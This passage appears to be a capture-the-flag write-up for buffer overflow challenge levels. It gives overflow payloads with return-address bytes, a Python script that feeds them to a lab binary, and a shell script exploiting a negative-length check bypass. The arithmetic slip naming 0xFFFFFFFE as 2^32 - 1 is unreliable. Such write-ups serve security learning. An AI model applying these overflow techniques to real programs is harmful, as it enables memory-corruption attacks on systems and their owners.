 `./memory.sh 72 "\x35\x16\x40"`

<div alt="page-break" class="page-break"></div>

## Level 3.1

`./memory.sh 104 "\x71\x1a\x40"`

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x71\x1a\x40

> Easier alternative: **memory.py**
>
> ```python
> import subprocess
> 
> file = "/challenge/babymem_level3.1"
> 
> payload = b"107\n" # 104 + 3
> payload += b"A" * 104
> payload += b"\x71\x1a\x40"
> 
> process = subprocess.Popen(file, stdin=subprocess.PIPE)
> process.communicate(payload)
> ```
>
> `python memory.py`

## Level 4.0

Inputting a negative integer works because the check in the `challenge` procedure is always verified (any negative number is smaller than whatever positive constant is being used to do the check). This number, interpreted as a two's complement by the check, is instead read like a giant number by the `read` syscall that gets the payload text.

For example, if I input -2 as my payload length, it's saved in the stack as a 32-bit number in two's complement: `0xFFFFFFFE`. This number is then read by the `read` syscall like $2^{32} - 1$

How is the check implemented here? **[...]**

**memory.sh**

```shell
#!/bin/bash

file="/challenge/*"

payload_size=$1
payload_size=$((payload_size * -1))
append_string=$(echo -e "\x1b\x22\x40")

string=$(printf '1%.0s' $(seq 1 $(($payload_size * -1))))

if [[ -n "$append_string" ]]; then
    string="${string}${append_string}"
fi

printf "%d %s" "$payload_size" "$string" | $file

echo -e '\nThe provided string is:' $string ', length:' $payload_size
```
